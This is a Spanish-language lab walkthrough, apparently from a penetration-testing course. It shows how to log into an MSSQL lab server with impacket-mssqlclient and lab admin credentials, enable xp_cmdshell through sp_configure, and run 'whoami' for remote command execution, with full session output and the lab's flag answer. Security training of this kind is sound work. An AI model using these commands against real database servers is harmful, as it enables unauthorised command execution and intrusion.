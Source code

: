 # Walk: Laboratorio 1 de 7 - MSSQL xp_cmdshell

## Fecha: 25/01/2025
## Host: Windows
## IP: 192.168.136.18

## Objetivo
Connect to the MSSQL VM 1 and enable xp_cmdshell as showcased in this Module. 
Which MSSQL configuration option needs to be enabled before xp_cmdshell can be turned on?

---
## Herramientas
1. impacket-mssqlclient 
---
## Procedimiento y comandos
1. Paso 1: Nos conectamos con la base de datos:
	- **impacket-mssqlclient Administrator:Lab123@192.168.136.18 -windows-auth**
	- Necesitamos correr **xp_cmdshell** para lograr **RCE**
	- **EXECUTE sp_configure 'show advanced options', 1;**
	- Esa seria la respuesta que buscamos como flag para este lab: **show advanced options** es lo que necesitamos habilitar primero para habilitar **xp_cmdshell**
2. Paso: Adicionalmente exporamos con **xp_cmdShell**:
		Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

		[*] Encryption required, switching to TLS
		[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
		[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
		[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
		[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
		[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
		[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
		[!] Press help for extra shell commands
		SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE sp_configure 'show advanced options', 1;
		INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
		SQL (SQLPLAYGROUND\Administrator  dbo@master)> RECONFIGURE;
		SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE sp_configure 'xp_cmdshell', 1;
		INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
		SQL (SQLPLAYGROUND\Administrator  dbo@master)> RECONFIGURE;
		SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE xp_cmdshell 'whoami';
		output                        
		---------------------------   
		nt service\mssql$sqlexpress   

		NULL                          

		SQL (SQLPLAYGROUND\Administrator  dbo@master)> exporar comandos cmd.
